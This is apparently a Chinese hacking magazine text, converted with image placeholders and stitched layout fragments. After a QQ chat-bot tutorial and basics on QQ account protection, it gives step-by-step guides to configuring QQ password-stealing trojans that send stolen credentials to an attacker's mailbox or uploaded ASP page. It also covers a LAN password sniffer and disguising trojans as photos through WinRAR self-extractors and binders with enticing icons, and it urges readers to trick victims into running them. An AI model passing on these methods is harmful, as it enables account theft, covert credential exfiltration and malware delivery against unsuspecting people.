





## 全新QQ机器人

想看看你的QQ自动与人聊天吗？试试这个软件吧。你可以端一杯茶，仅仅轻点鼠标，甚至让本软件全自动代替你进行聊天，享受快速聊天的感觉。此软件为免费软件，没有任何试用期及功能限制。

软件需要安装后才能使用，安装过程很简单我就不讲了，安装成功后双击桌面上的“全新QQ机器人”的图标，打开后如图1，在程序上面有“全自动聊天”和“半自动聊天”之分，先来介绍一下半自动聊天，首先双击你想聊天的好友头像，在弹出的“发送消息”中选择“聊天模式”，如图2。

然后在QQ机器人中选择不同类型的聊天语句，如图3。双击窗口中的语句就可以自动发送出去，当然你还可以在窗口中修改后在发送，如图4。





半自动聊天就介绍到这，下面来看看全自动聊天，首先选择聊天的内容，如图5。再选上下面的“顺序”，打开聊天窗口，点击软件上的“开启自动聊天”即可开始自动聊天，如图6。





### 3.1 菜鸟必读

## QQ号码的基本常识

#### 一、号码分类

QQ号可分为会员号、QQ行号、有保护的普通号、无保护的普通号，下面我分别来解释一下。

会员号：就是腾讯靓号地带的号，每个月要向腾讯支付10元的使用费（可以通过QB、QQ卡、手机等方式支付）。

QQ行号：就是QQ行的号码，每个月要向腾讯支付2元的使用费（也是通过QB、QQ卡、手机支付等方式支付）。

有保护的普通号：就是普通的号码，无须向腾讯支付费用，但在腾讯申请了保护。当忘记了密码时，可以通过腾讯的密码找回服务重新设置QQ密码。

无保护的普通号：就是普通的号码，无须向腾讯支付任何的费用，也没有申请密码保护。所以，当忘记了密码或是密码被别人窃取了，就很难再取回你的密码了。

QQ号码还分为有手机绑定和无手机绑定。有手机绑定的号码，可以发送短信，由手机支付费用（无论是否为会员号，是否有密码保护，都可以手机绑定的）。

### 二、如何查QQ有无号码保护

登录 http://service.tencent.com/psw/mo.shtml?psw_cs.htm，输入号码和验证码。假如是会员或行号，会显示“会员朋友，您好。为了让您得到更加快捷、周到、安全的服务，请登录MyQQ使用此项功能，谢谢。”假如是有保护的号码，会让你继续输入保密的内容。假如是无保护的号码，会显示“您暂时还没有申请密码保护这项服务，为了您的QQ更加安全，请立刻申请密码保护！”

### 三、如何取回丢失的QQ号码

- 1. 假如是会员号码，可以登录 http://myqq.tencent.com，进入“忘记密码”，通过正确的保护资料，取回你的密码。
- 2. 普通有保护的号码，可以在 http://service.tencent.com/psw/mo.shtml?psw_cs.htm，通过填写正确的保护资料，取回你的密码。
- 3. 假如你忘记了保护的资料，可以通过腾讯的申诉系统取回密码。申诉地址：http://service.tencent.com/service/request.shtml（一般情况下，会员号的申诉是很快处理的，而没有保护资料的一般很少处理）。
- 4. 如果不受理的，可以直接发Email到腾讯的邮箱，或直接拨打腾讯的客服电话，当然一定要列举清楚一切能证明这个QQ是你的相关资料。资料网址：http://service.tencent.com/service/request_ad.shtml。

#### 四、关于密码保护的一些常识

密码保护可以分为送保、死保、二次保护，虽然都说明这个QQ已经申请了密码保护，但有区别。

送保：是知道保护的全部内容，可以去修改密码保护的QQ。

死保：只知道密码，不知道密码保护的内容，这种QQ最不安全，只要密码忘了或被别人修改了，QQ就没有了。

二次保护：腾讯曾经有一段时间存在BUG，可以在不知道保护的情况下去修改别人的密码保护（这个BUG现在已经没有了），这就是所谓的二次保护，据说号码的主人可以通过最初申请的密码保护取回密码。

另外，在保护资料中有证件资料与非证件资料之分。

证件资料：就是保护资料中的“证件号码”，用的是正确的身份证之类的可以证实身份的证件号码，这个号码一经申请是不能做任何更改的。QQ的主人可以通过证实自己身份的方法（比如复印身份证给腾讯）就可以取回保护资料，你修改保护资料也是没有用处的。

非证件资料：就是保护资料中的“证件号码”用的是不正确的身份证之类的号码，QQ原来的主人是无法证实该号码属于他本人的，相对而言安全一些。

### 五、用密码保护取回QQ密码，保护资料正确，但为什么收不到腾讯的E-mail？

建议更换保护资料里的邮箱，用收费的或国外的邮箱，比如Hotmail的邮箱等，不行的多换几个。

#### 六、什么是抢保护

很多论坛都有送QQ，送的时候说明是无保护的，一些朋友改了密码后查证也是无保护的，但过了一段时间，发现QQ的密码不对了，而且也被申请了密码保护，通常这就是被“抢保护”的结果。

腾讯为QQ提供的服务是由很多的服务器来完成的，他们之间不可能同步更新资料，这样会很耗费资源。当你在QQ上更改了资料，包括个人资料或密码等，这只是在其中的一个服务器修改了资料，其它的服务器在短时间内是没有同步的，还是原来的资料，这就提供了给别人修改QQ资料的时间，别人可以马上用原来的密码去申请密码保护（虽然你在QQ上已经改了密码），然后通过取回密码来修改你的QQ的密码，这样就可以抢走你的QQ。

预防的办法：当你在QQ上修改密码后，马上到腾讯的主页（http://www.tencent.com）使用新的密码登录，登录后点击“个人资料”，里面有一个“同步资料”选项，点击确认后就同步腾讯服务器的资料了。

#### 七、无保号、处号、送保号、死保

无保护普通号：就是普通的号码，无须向腾讯支付任何费用，也没有申请保护。所以，当忘记了密码，就很难取回你的密码了，比如常说的7无、8无的。

处号：是指没有加别人好友，没有注册QQ秀，没有刷过QQ游戏币，也就是说没有用过的QQ的非会员号，比如常说的7处、8处、9处。

送保：就是一个号码有了密码保护，购买他的QQ号后，他把整套的密码保护送你。

死保：就是忘记了密码保护的号码，不过很有可能什么时候保护又“活”了过来。

#### 八、交易送保靓号要注意

- 正确顺序是：
  1. 改保护资料。
  2. 立刻取密码一次。
  3. 利用取密码的信修改密码一次。
  4. 24小时后再取再改一次。

尤其是靓号，这样做能确保你的号码密码不会丢失。现在流行申诉，最好问清楚有无原始密码，另外同信誉比较好的人交易送保号，小心被人骗号骗钱。

#### 九、交易游戏币慎防骗局

- 交易的正确顺序是：
  1. 改密码（登录客户端改密码）。
  2. 同步（登录社区同步密码，防止抢保）。
  3. 查保护（防止有保护号码，否则以上两步白做）。
  4. 存进帐户（登录帐户中心，防止在其它地方还可以使用到游戏币）。
  5. 再取出来（这个是防止TC没收你的币）。

第5项属于可选的，前面四部请认真按步对待。

### 十、当您的QQ被人锁上后

- 1. 取回密码待用。
- 2. 登录社区，再选“用QQ资料覆盖社区资料”，看到“手机”那一栏上已出现锁你号的那个可恶的手机号了。
- 3. 登录 http://service.qq.com/，往下拉一点，选“通过QQ号码+手机号码查询”，填好“QQ号码、手机号码、QQ密码及附加码”后提交就出现了新的页面，这个新页面就是这只手机号码开通了一些什么服务，自由地去掉前面的“勾”后提交。
- 4. 用自己的手机写：55#QQ号#密码，发至1700开通加油站。
- 5. 解除手机锁定写：unlg#QQ号，发至170050即大功告成。

### 十一、QQ常用名词解释

- 1. 新8无：指去年年底开放申请的8无，一般为7、8开头。
- 2. AB号：指一个号码中只含两个数字，例如9393339。
- 3. ABC号：指一个号码中只含三个数字，例如9390339。
- 4. 回旋号：指正反相同的号，大回旋（整个号码），小回旋（号码中的一部分），例如3711173（大），124686428（小）。
- 5. 情侣号：指末尾数字差一位，例如152915525、152925526，注意尾数后两位为09、10的不算情侣号，只能算连号。
- 6. 兄弟号：指号中某个数字不同，例如12597638、12597648。
- 7. RMB：这个不用说了吧！
- 8. QB：就是Q币。
- 9. YXB：游戏币。

看完这些我想你对QQ号码的知识大增了吧！

（右栏）介绍通过邮箱收信与发信设置来获取普通QQ号码的步骤，包含示例邮箱 test@163.com、smtp.163.com、用户名 test、密码 123456，并说明测试邮箱及后续选项设置（如图2、图3、图4）。


网上现在比较流行的盗号工具中，啊拉QQ大盗算出名，最新版本是V1.6B，先看看1.6版本的新功能。

左下栏正文：介绍该工具可自动转存、支持“网站收信”与“邮箱收信”模式，并说明在V1.6中新增功能及具体配置方法。


## 专业盗QQ之揭秘QQ（3.3）


再来看看“网站收信”功能，如图5，想使用这个功能的朋友注意，请先将附带的 tmdqq.asp 上传到你的空间中去，然后在“ASP接口地址”中输入 tmdqq.asp 所在地址（如 www.xx.com/tmdqq.asp）。这样当盗取到QQ时，会在该目录下生成 qq.txt，盗取的账号密码保存于其中。最后生成木马并诱导对方运行，即可在其登录QQ后盗取账号。

强强盗QQ也是一款常见盗号软件。双击打开配置端主界面后，按提示填写收信邮箱、主题、邮件服务器、用户名、密码与发件邮箱等信息，完成后点击生成即可做出盗QQ密码的木马。


## 专业盗QQ之QQ后黑手（1.4）

QQ后黑手也是一款较常见的QQ盗号软件。双击 GetQQ.exe 打开配置窗口后，可见该版本主要支持网页收信。文中说明了其配置思路：修改附带的 getqq.asp、设置收信地址和相关参数，并通过生成木马实现盗号数据回传。


件，要是别人从内存中找出了你 Getqq.asp 路径，再直接访问 qq.txt 那你所有的QQ号不就白盗了？右键单击 Getqq.asp，在打开方式中选择“记事本”，如图2，然后将代码中的 qq.txt 改为你保存QQ密码的文件，这样即使他找到你的 Getqq.asp 路径也没关系了！把修改好的 Getqq.asp 上传到你的ASP空间里，什么？你没有ASP空间？快去中国免费资源网（http://www.jn001.net/）找一个，那里每天都有ASP空间更新的网址！

上传之后在Q后黑手中输入你的 Getqq.asp 所在的路径，前面记得加 http://，如图3，你还可以选择下面的多久后关闭QQ，来达到获取QQ密码的目的，然后点击“生成木马”，就会在同级目录下生成一个名为 muma.exe 的木马文件，只有把这个木马发给对方并让对方运行，他的QQ就是你的了，呵呵。


## 专业盗QQ之QQ远程盗号木马

QQ远程盗号木马是一款QQ密码截获工具，本程序由“QQ密码大盗V4.0”修改而成，支持最新QQ版本（QQ2005、QQ2004），同时向下兼容，此程序经过严格测试绝无失效的可能性！

我们来看看它的主打功能吧！

- 1. 突破常规的盗号方法，准确率高。
- 2. 对较新版QQ及其老版本同样有效。
- 3. 盗号与用户接收到密码同步。
- 4. 反杀毒软件扫描，隐藏性好。

#### 使用方法

双击运行QQ木马生成器.exe，如图1，界面非常的简洁，菜鸟一看就懂，我们在接受邮箱处填入要用来接受QQ密码帐号的邮箱，建议大家专门申请一个，毕竟安全第一么，如图2，然后点击下面的“生成盗号木马”，再把名字起得迷惑一点就可以了，将生成的EXE文件发送给对方，想方设法让他运行即可！

#### 盗号原理

如果他运行了该程序，首先他的QQ会被强行关闭，接着会出现错误提示以迷惑他，随后盗号木马就会潜伏到他的系统里，如果他再次登录QQ，那他的QQ密码会立即发送到你的邮箱里。任何时候任何人只要在该机器上使用QQ，都难逃此劫。

#### 卸载方法

- 1. 删除注册表 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\SysSever 项。
- 2. 删除注册表 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RecAdr 项。
- 3. 重启计算机，删除系统目录（Win98 为 system，Win2000、XP 为 system32）下的 Sysdll.exe、QHK.dll 文件。


## 专业盗号

### 之密码监听器

密码监听器用于监听网页的密码，包括网页上的邮箱、论坛、聊天室等等。只需在一台电脑上运行，就可以监听局域网内任意一台电脑登录的帐号和密码，并将密码显示、保存或发送到用户指定的邮箱，支持的操作系统为Windows 9x/2000/XP。

下面我讲一下它的使用方法，运行后会弹出一个要求输入密码帐号的对话框，我们输入用户名zxm注册码92932，就可以成功注册了，界面如图1。再切换到“适配器”选项中，选择自己的适配器，一般情况下默认即可，如图2。在“邮件”选项中填入你发送密码帐号的邮箱地址，密码填该邮箱密码，SMTP服务器中填写发信邮箱对应的SMTP服务器，如图3。在下面的“接收密码的邮件地址”中填写收取盗到的帐号密码，还是建议大家专门申请一个来使用，下面的“自动发送邮件设置”选项里我们选上“自动发送密码到指定邮箱”，软件就会将获取的密码自动发送到你的指定邮箱了。还可以设置发送参数，是每获取一个发送一次呢，还是多长时间发送一次，可以根据自己需要来设置，如图4。“保存”选项中是用来设置本地保存密码的地方，可以设置“自动保存间隔时间”，程序就会每隔一定的时间将获取到的密码帐号保存到指定的位置，如图5。“密码保护”选项是当软件被默认的热键呼出后要求输入的密码，可以起到保护的作用，如图6。“其它”选项中可以定义呼出密码监听器的热键，建议把这个热键设置的隐蔽一些，防止用户按错键把密码监听器给弹出了！

再来说说“启动参数设置”里那两项的意思，“启动时隐藏界面”选中时，程序在启动时就不显示该界面；“系统启动时自动启动”选中时，操作系统启动时就会自动启动该程序。


程序，如图7。“更新过滤器”就是在线更新该程序监听使用的过滤器，以监听到更多的密码，我们来看看获取到的密码，如图8！很简单吧，大家快点实践一下。


### 专业盗号之六：窃绝杀（3.7）

提到盗号就不能不提它了！04年最受欢迎的盗号工具——“密码解霸”。现在网上有很多改版的解霸，比如密码结巴，只是将原来密码解霸的一些版权改成了自己的。由于我找不到原版了，所以这里以密码结巴V8.3来给大家介绍。它可以捕获Win9x/Win2k/WinXp下的几乎所有普通窗口和网页登录密码。每次开机软件自动启动，并隐藏在系统中，实时捕获密码，不管是键盘输入的密码还是其它手段输入的密码（如复制），软件都能准确截取，并发送到指定邮箱中。

下面来讲一下用法，运行密码结巴后界面如图1所示。在“基本设置”选项中，“密码接收邮箱”填入你要接收盗取到账号密码的邮箱，建议大家用china.com的邮箱，因为我以前测试的时候只有china.com的邮箱能收到邮件。你可以点后面的“测试”按钮来看看。下面的保护密码就是热键呼出密码结巴后要求输入的密码，只有密码正确才能修改设置。


在“高级设置”选项中，“主机标志”是收到邮件后邮件主题中出现的标识；“安装提示”是双击运行生成的服务端后出现的提示。可设置发送邮件频率、热键设置等，如图2。“自动升级”功能不推荐使用。“软件注册”中输入注册码，可用注册机生成，如图3。“历史密码”可查看本地获取的所有密码记录，可选择“清空”及“发送”，如图4。配置完后点击“生成”按钮，即可生成签名木马。


## 捆绑篇

### 之永不被查杀的捆绑机


看完小鱼为你介绍的众多盗号工具后，是否从中挑选出一款自己的最爱呢？但要知道现在的网民安全意识都在提高，如果对方接收了你的木马程序，运行后发现没有任何反映而且文件还自动消失了，那他不怀疑才怪呢？我们有没有办法让这个木马程序伪装得更像一点呢？答案当然是肯定的，怎么办呢？我们菜鸟的首选当然是捆绑了！

今天给大家介绍的就是一款永不被查杀的捆绑机，在哪儿下载？啊啊，这个相信所有人的电脑里都有！是什么呢？就是我们平时用的最多的 WinRAR，它的自解压选项就是一个功能强大的捆绑机，深受广大 hack 朋友的喜爱，最重要的是它不会被任何杀毒软件所查杀！


来看看如何利用这款捆绑机吧！首先我们准备好自己配置好后的盗号木马和一个正常的文件，比如图片、Flash、小软件等等，然后用鼠标将准备好的两个程序同时选中再单击鼠标右键，在弹出的菜单中选择“添加到压缩文件”，如图1。随后会弹出压缩选项的窗口，我们将其中“创建自解压格式压缩文件”前面的勾选上，如图2，可以看到上面的“压缩文件名”由刚才的 .rar 变成了 .exe，经过这样的设置即使对方没有安装 WinRAR 也可以运行我们捆绑的文件。


再来将这个压缩窗口切换到“高级”选项中，单击其中的“自解压选项”，如图3。在“解压路径”中输入“%systemroot%\temp\”，为什么要用“%systemroot%”呢？因为这个是系统盘的意思，这样就算对方系统盘不是 C 盘也能解压到系统盘下的 temp 目录下；下面的“解压后运行”就是将自解压中的文件解压到 temp 目录后要运行的，这里我们填写我们的木马程序文件名，我填写的是“木马.exe”；下面的“解压前运行”就是在解压前运行自解压文件中某个文件，这里当然填写用来欺骗对方的程序了，我填写的是“我的照片.gif”，设置好后如图4。然后切换到“模式”选项，在下面的“安静模式”中选择“全部隐藏”，在“覆盖方式”中选择“覆盖所有文件”，如图5，这样在运行时就不会出现任何提示了。现在当对方运行我们做好的自解压文件后就会先运行“我的照片.gif”，在关闭照片后就会运行……


### 图标宝典


我们的盗号程序，最后一步就是选择一个比较诱人的图标，可以自定义一个.ico 图标，我们在“文本和图标”中选一个好看点的图标，如图6。点“确定”后就在同目录下生成了刚刚配置好的那个文件了，如图7。我们来测试一下，双击运行后可以看到图片先打开了，关闭图片时我们的盗号木马就运行了，如图8！怎么样，知道怎么用了吧！


### 捆绑篇之 Pcshare 文件捆绑器（3.9）

据说这是 Pcshare 内部的捆绑器，会员才能使用，可以免杀。我觉得还是蛮适合菜鸟用的，拿出来跟大家介绍一下！双击运行后界面如图1所示，是不是一目了然？宿主文件就是你用来迷惑对方眼睛的文件，点击“指定文件”选择文件，可以是图片、Flash 等等，如图2。下面就是选择你的木马文件了，选择一个配置好的盗号程序。最后就是选择生成文件的图标了，要选一个诱人的图标哦，如图3。设置完成后点“捆绑文件”，再选一个保存路径就OK了！


### 捆绑篇之超强捆绑机（3.10）

这里再给大家介绍一款灰鸽子工作室推出的最新捆绑利器，名字叫“永不查杀的捆绑机”。首先准备好我们的盗号木马，还有一张漂亮的MM图片或者其它文件，然后我们双击捆绑器，界面如图1。先单击“增加文件”添加我们来欺骗对方眼睛的东西，然后同样再单击“增加文件”来添加我们的木马程序，如果不小心选错了可以单击“删除文件”删除误添的文件，如图2。


## 第三章 QQ 研究院


再看下面的选项，其中有个“首次运行”，它的意思就是打开我们的捆绑程序后首先运行的，这里记得一定要选择我们用来迷惑对方的文件。后面的“当首次结束再运行”选择我们的盗号程序，这样当对方关掉首次运行的程序后就会自动运行我们事先准备好的木马程序，配置好后如图3，下面我们来选择一个诱人的图标，你可以选择捆绑机中自带的，也可以单击“选择图标”来选择，这个捆绑机可以选择exe结尾的程序的图标，如图4。选择好后我们点击“捆绑文件”，选择好路径生成就可以了，如图5。现在就可以将这个捆绑好的东东利用任何手段发给别人运行了！运行后效果如图6！


### 2.1.1 捆绑小技巧之图标替换

图标替换在盗号中是很重要的，在相当大的程度上决定了对方是否会运行你的程序，当然诱人的名字也是非常重要，为了配合捆绑篇，我来给各位菜鸟们讲讲图标替换！图标替换，就是将你想要的图标从程序中提取出来，然后用捆绑器自带的更换图标选择提取出来的.ico文件，我们可以通过eXeScope这类资源修改软件来提取图标，不过考虑到不怎么适合菜鸟朋友，我给大家准备了一款小工具，专门用来提取图标——图标搜索大师 V1.77！这款工具可以用来搜索并保存硬盘中的所有图标。


运行后界面如图1所示，我们可以将想要提取图标的文件放到一个文件夹中，然后再来选择这个目录。打开图标搜索大师的“搜索”→“设置搜索目录”，如图2，在弹出的对话框中选择你放图标的文件夹，也可以批量提取比如选择整个C盘。点击左上角的那个放大镜图案的图标，程序就开始搜索图标并且显示在主窗口中，如图3。然后我们可以将这些图标保存起来，点击“搜索”下的“保存图标”，如图4，这样以后捆绑时就不愁没有图标用了！呵呵！


## 盗号业知还原卡还原精灵破解

网吧盗号自然少不了，但网吧电脑一般都装有还原精灵或还原卡，下面我将市面上比较好的破解程序给菜鸟们介绍一下，在介绍之前先来看看还原卡及还原精灵的工作原理。


图 1

#### 原理篇

